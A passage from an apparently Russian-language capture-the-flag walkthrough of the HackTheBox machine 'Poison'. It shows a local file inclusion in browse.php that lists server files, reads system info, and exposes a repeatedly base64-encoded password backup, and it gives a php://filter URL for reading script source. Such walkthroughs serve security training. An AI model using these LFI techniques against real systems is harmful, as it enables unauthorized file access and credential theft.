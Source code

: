 ```html
<!-- view-source:http://10.10.10.84/browse.php?file=listfiles.php -->

Array
(
    [0] => .
    [1] => ..
    [2] => browse.php
    [3] => index.php
    [4] => info.php
    [5] => ini.php
    [6] => listfiles.php
    [7] => phpinfo.php
    [8] => pwdbackup.txt
)
```

7 элементов массива, не считая текущей и предыдущей директорий (`.`, `..`). На главной страничке было указано 4 файла, теперь видно, что помимо них имеется: `browse.php` — скрипт, который и отвечает за показ содержимого других файлов и выполнение php-скриптов (сердце LFI-уязвимости, можно воспользоваться `/browse.php?file=php://filter/convert.base64-decode/resource=<SCRIPT.PHP>`, чтобы посмотреть на исходник скрипта, а не выполнить его), `index.php` — собственно сама главная страница, и таинственный `pwdbackup.txt`.

К `phpinfo.php` еще вернемся, `ini.php` не представляtтся ценным, а в `info.php` — информация о системе (просто вывод `uname -a`, I guess):

```html
<!-- view-source:http://10.10.10.84/browse.php?file=info.php -->

FreeBSD Poison 11.1-RELEASE FreeBSD 11.1-RELEASE #0 r321309: Fri Jul 21 02:08:28 UTC 2017     root@releng2.nyi.freebsd.org:/usr/obj/usr/src/sys/GENERIC amd64
```

## Захват пользователя. Способ 1, читерский (Web)

Ну и сразу откроем `pwdbackup.txt`, интересно же :joy:

```html
<!-- view-source:http://10.10.10.84/pwdbackup.txt -->

This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```
